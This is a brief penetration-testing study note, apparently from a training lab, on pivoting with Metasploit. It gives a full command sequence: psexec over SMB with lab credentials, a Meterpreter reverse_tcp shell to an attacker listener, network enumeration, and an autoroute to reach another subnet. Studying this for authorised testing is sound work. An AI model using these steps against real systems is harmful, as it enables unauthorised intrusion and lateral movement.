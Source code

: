 ## Metasploit

For pivoting there  should be a mediator machine which has connection the network where attacker is on and also connection to the target network subdomain.

```sh
> msfconsole
> use exploit/windows/smb/psexec
> options
> set rhost <targetIP: 192.168.57.141>
> set smbdomain <targetdomain: marvel.local>
> set smbpass <targetuserpasswrod: Password1>
> set smbuser <targetusername: fcastle>
> set payload windows/x64/meterpreter/reverse_tcp
> set lhost <ListenerInterfaceIP: eth0>
> set lport <listerner port: 4444>
> options
> set target 2
> run

meterpreter>>
>> shell
# to check network table
> route print or ipconfig
> arp -a
> ctrl + c
meterpreter>>
>> run autoroute -s <target network subnet: 10.10.10.0/24>
# route will be added to target network

# use metasploit to exploit more on the target network machines

```

### Read up on the topic pivoting and explore the topic more.